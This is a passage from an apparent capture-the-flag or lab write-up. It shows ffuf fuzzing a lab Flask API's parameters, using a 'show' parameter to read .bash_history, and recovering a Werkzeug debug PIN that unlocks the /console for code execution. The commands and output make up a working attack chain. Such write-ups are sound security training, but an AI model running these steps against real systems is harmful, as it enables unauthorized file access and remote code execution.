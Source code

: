 
```
"http://10.10.254.203:5000/api/v1/resources/books?id=.bash_history"
```

Since already know we need to read `bash_history`, we can use it to fuzz, now, let's fuzz changing the `id` character to check if there's any parameter that may give us the valid response:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.254.203:5000/api/v1/resources/books?FUZZ=.bash_history" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.254.203:5000/api/v1/resources/books?FUZZ=.bash_history
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

show                    [Status: 200, Size: 116, Words: 5, Lines: 8, Duration: 183ms]
author                  [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 190ms]
id                      [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 191ms]
published               [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 184ms]
```


As seen, the `show` parameter has got a size of `116`, let's check it out:

```json
curl "http://10.10.254.203:5000/api/v1/resources/books?show=.bash_history"
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=123-321-135
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

It works and we got the pin, let's go into `/console` then:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250509115547.png)
